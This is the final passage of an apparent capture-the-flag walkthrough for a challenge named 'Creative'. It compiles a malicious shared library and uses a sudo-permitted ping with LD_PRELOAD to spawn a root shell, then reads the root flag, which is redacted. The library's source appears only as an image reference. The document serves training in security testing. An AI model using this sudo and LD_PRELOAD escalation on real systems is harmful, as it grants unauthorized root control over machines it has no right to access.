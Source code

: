 Now we need to compile the library, we can use the *gcc* utility:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Finally we are ready to use our sudo powers with the ping command to spawn a root shell:
```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

And we have the shell as root, we can navigate to the root directory and 
```bash
cat root.txt
```

--> REDACTED

<br/>
<br/>

Congratulations, you have completed the Creative challenge, thanks for following along.

I hope to see you again in another challege 😊
